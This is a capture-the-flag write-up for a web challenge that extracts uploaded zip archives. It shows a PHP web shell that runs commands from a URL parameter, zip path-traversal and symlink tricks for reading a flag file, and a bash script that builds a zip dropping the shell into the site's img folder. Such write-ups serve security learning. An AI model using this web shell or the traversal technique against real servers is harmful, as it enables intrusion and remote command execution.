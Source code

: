 # Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is another file upload challenge where we can upload files.

![alt text](2.png "Chall")


* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.

![alt text](3.png "Chall")

Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.

![alt text](4.png "Chall")

Maybe we can write to that directory.

![alt text](5.png "Chall")

Exploit script:
```bash
#!/bin/bash
mkdir ./down
mkdir ./down/down
mkdir ./img
cp shell2.php ./img/shell2.php
cd ./down/down/
zip win.zip ../../img/shell2.php
cd ../../
mv ./down/down/win.zip .
rm -rf down
rm -rf img


echo "You can now upload win.zip"
```
